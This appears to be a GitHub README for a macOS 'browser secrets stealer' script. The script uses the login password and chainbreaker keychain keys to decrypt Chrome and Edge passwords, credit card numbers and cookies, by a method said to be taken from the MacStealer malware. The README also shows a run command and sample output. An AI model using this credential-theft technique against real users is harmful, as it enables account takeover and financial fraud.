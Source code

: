 # macos browsers' secrets stealer

`dump_browser_secrets.py` takes the user login password and dumps the browser secrets such as passwords, credit card numbers, and cookies. It uses [chainbreaker](https://github.com/n0fate/chainbreaker) to retrieve the decryption keys from the login keychain. Next, it uses these decryption keys to decrypt the browsers' stored secrets. The method used to retrieve browsers' secrets is taken from the [MacStealer malware](https://www.uptycs.com/blog/macstealer-command-and-control-c2-malware). 

Currently, it supports Chrome and Edge on macOS but it can support other browsers as well. To add support for a browser, just append the browser names to the `Broswer.browsers` variable in the script. 

*Note that, Firefox may use another technique to store its secret data so this script may not work against the Firefox browser.*


### RUN

First install [chainbreaker](https://github.com/n0fate/chainbreaker) and then run the script: 
```sh
python3 dump_browser_screts.py                                                                                                       
[INFO] Read and decrypt browsers stored secrets such as passwords, credit cards details, and cookies
[+] Enter login password:
[INFO] Login keychain path= /Users/dev/Library/Keychains/login.keychain-db
[INFO] Dumping passwords from keychain
[INFO] Available browsers = {'Google-Chrome': '/Users/dev/Library/Application Support/Google/Chrome', 'Microsoft-Edge': '/Users/dev/Library/Application Support/Microsoft Edge'}
[INFO] Getting and Decrypting browser secrets
[INFO] Decrypting credentials
[INFO] Decrypting credit cards number
[INFO] Decrypting cookies
[INFO] Writing the browser secrets to /Users/dev/secret_output
[INFO] Writing login details to a file
[INFO] Writing credit cards info to a file
[INFO] Writing cookies to a file
```
